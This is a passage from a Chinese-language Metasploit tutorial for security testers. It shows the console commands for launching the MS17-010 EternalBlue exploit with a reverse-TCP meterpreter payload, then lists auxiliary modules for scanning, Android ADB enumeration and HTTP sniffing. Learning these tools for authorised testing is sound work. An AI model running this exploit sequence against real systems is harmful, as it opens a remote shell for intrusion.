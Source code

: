    ```
   msf > use exploit/windows/smb/ms17_010_eternalblue
   ```
   
2. **选择 Payload 模块**：选择一个与 Exploit 模块兼容的 Payload 模块。

   ```
   msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
   ```
   
3. **设置 Payload 参数**：

   ```
   msf exploit(ms17_010_eternalblue) > set LHOST [your IP]
   msf exploit(ms17_010_eternalblue) > set LPORT [port number]
   ```

4. **执行 Exploit**：

   ```
   msf exploit(ms17_010_eternalblue) > exploit
   ```

### 5. **编写和定制 Payload**

如果需要编写或定制 Payload 模块，可以：

- **使用 Ruby 编程语言**：Metasploit 模块通常使用 Ruby 编写。
- **实现 Payload 行为**：定义 Payload 的具体操作，例如文件下载、命令执行等。
- **测试和调试**：在测试环境中进行调试和验证。

# **Auxiliary 模块概述**

Auxiliary 模块提供了许多额外的功能，帮助安全测试人员和研究人员进行各种网络和系统测试。它们通常用于信息收集、扫描和测试，而不是直接进行漏洞利用。

### 2. **Auxiliary 模块的分类**

Auxiliary 模块可以分为以下几类：

#### 2.1. **扫描（Scanner）**

- **端口扫描**：检测目标主机上开放的端口。
  - 例如，`auxiliary/scanner/portscan/tcp` 用于进行 TCP 端口扫描。
- **服务扫描**：识别目标主机上运行的服务和版本。
  - 例如，`auxiliary/scanner/http/http_version` 用于检测 Web 服务器的版本。
- **漏洞扫描**：检查目标系统是否存在已知的漏洞。
  - 例如，`auxiliary/scanner/smb/smb_version` 用于检查 SMB 协议的版本。
  
  **扫描安卓**use auxiliary/scanner/android/adb_enum

#### 2.2. **嗅探（Sniffer）**

- 网络嗅探

  ：捕获网络流量，分析传输的数据包。

  - 例如，`auxiliary/sniffer/http` 可以捕获 HTTP 流量。
